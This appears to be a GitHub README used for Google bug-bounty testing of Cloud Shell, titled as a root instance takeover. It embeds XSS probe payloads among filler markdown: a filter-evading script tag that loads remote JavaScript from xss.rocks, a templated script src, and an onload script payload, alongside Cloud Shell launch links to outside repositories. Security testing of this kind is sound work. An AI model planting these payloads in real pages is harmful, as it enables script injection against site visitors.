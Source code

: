 # Google VRP testing  
Google cloudshell instance take over (as root)
<script async type="text/javascript" src="{{ js }}"></script>

<dl>
  <dt>Definition list</dt>
  <dd>Is something people use sometimes.</dd>
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>

  <dt>Markdown in HTML</dt>
  <dd>Does *not* work **very** well. Use HTML <em>tags</em>.</dd>
</dl>

---

 

[![Launch in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)][1]

[1]: https://console.cloud.google.com/?cloudshell_git_repo=https%3A%2F%2Fgithub.com%2Fgooglecloudplatform%2Fcloud-ops-sandbox&cloudshell_git_branch=0.9.4&cloudshell_tutorial=docs/walkthrough.md



<details>
  <summary>Click me</summary>
  
  ### Heading
  1. Foo
  2. Bar
     * Baz
     * Qux

  ### Some Javascript
  ```js
  function logSomething(something) {
    console.log('Something', something);
  }
  ```
</details>


### Test

<script onload="{ setTimeout(function(){ altert(document) console.log(document) },5000) }"> 

 [![Open in Cloud Shell before](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?page=editor&cloudshell_git_repo=https:%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta.git&cloudshell_open_in_editor=README.md)
